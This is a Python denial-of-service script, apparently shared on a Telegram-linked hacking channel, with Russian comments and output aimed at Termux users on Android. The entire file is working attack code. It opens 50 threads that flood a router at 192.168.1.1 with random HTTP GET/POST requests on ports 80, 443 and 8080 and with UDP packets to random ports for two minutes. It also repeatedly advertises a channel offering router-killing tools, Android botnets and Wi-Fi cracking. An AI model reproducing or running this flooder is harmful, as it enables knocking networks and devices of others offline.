 import socket
import threading
import random
import time
import os

# ===== РЕКЛАМА ВАШЕГО КАНАЛА =====
TELEGRAM_CHANNEL = "https://t.me/zenlyhub"  # ПОДПИСЫВАЙТЕСЬ!
print(f"🔥 Хакерский инструмент для Termux: {TELEGRAM_CHANNEL}")
print("🔔 Подпишись для мобильных эксплойтов!")

# ===== НАСТРОЙКИ ДЛЯ TERMUX =====
TARGET_NET = "192.168.1.1"  # IP роутера
PORT_BOMB = [80, 443, 8080]  # Только HTTP(S) порты
THREADS = 50  # Меньше потоков для Termux
DURATION = 120  # Короче атака

# ===== HTTP FLOOD (оптимизировано) =====
USER_AGENTS = [
    "Mozilla/5.0 (Android 13; Mobile) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.196",
    "Mozilla/5.0 (Linux; Android 12) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.144",
    "Mozilla/5.0 (iPhone; CPU iPhone OS 16_5 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko)"
]

def generate_payload():
    """Генерация легковесных HTTP-запросов"""
    method = random.choice(["GET", "POST"])
    path = random.choice([
        "/", "/index.html", 
        f"/?cache={random.randint(1000,9999)}",
        "/login.php"
    ])
    payload = f"{method} {path} HTTP/1.1\r\n"
    payload += f"Host: {TARGET_NET}\r\n"
    payload += f"User-Agent: {random.choice(USER_AGENTS)}\r\n"
    payload += f"Referer: {TELEGRAM_CHANNEL}\r\n"
    
    if method == "POST":
        payload += "Content-Type: application/x-www-form-urlencoded\r\n"
        payload += f"Content-Length: {random.randint(100,500)}\r\n\r\n"
        payload += f"data={os.urandom(200).hex()}"
    else:
        payload += "\r\n"
    
    return payload.encode()

# ===== UDP FLOOD (работает без root) =====
def udp_flood():
    """UDP-флуд для перегрузки широковещательных запросов"""
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    while True:
        try:
            payload = os.urandom(1024)  # Случайные данные
            sock.sendto(payload, (TARGET_NET, random.randint(1000,65000)))
        except:
            pass

# ===== ОСНОВНАЯ АТАКА =====
def http_attack():
    """Упрощенная HTTP-атака для Termux"""
    while True:
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.settimeout(2)
            s.connect((TARGET_NET, random.choice(PORT_BOMB)))
            s.send(generate_payload())
            time.sleep(0.1)
            s.close()
        except:
            pass

# ===== ЗАПУСК =====
if __name__ == "__main__":
    print(f"\n[+] Запуск атаки на {TARGET_NET}")
    print(f"[+] Используется {THREADS} потоков")
    print(f"[+] Подробнее: {TELEGRAM_CHANNEL}\n")
    
    # Мониторинг ресурсов
    print("УСТАНОВИТЕ ЭТИ ПАКЕТЫ ПРЕЖДЕ ЧЕМ ПРОДОЛЖИТЬ:")
    print("pkg install python nmap -y")
    print("pip install requests\n")
    
    # Запуск потоков
    for i in range(THREADS):
        threading.Thread(target=http_attack, daemon=True).start()
        threading.Thread(target=udp_flood, daemon=True).start()
        
        if i % 10 == 0:
            print(f"⏳ Запущено {i}/{THREADS} потоков | Подпишись: {TELEGRAM_CHANNEL}")
    
    # Обратный отсчет
    print(f"\n[!] Атака продлится {DURATION} сек. Не закрывайте Termux!")
    for t in range(DURATION, 0, -10):
        print(f"Осталось: {t} сек. | Канал: {TELEGRAM_CHANNEL}")
        time.sleep(10)
    
    print("\n[+] Атака завершена! Проверьте роутер")
    print(f"[+] Для мощных DDoS: {TELEGRAM_CHANNEL}")
    print("🔥 Там есть: RouterKiller Pro, ботнеты для Android, Wi-Fi Crack\n")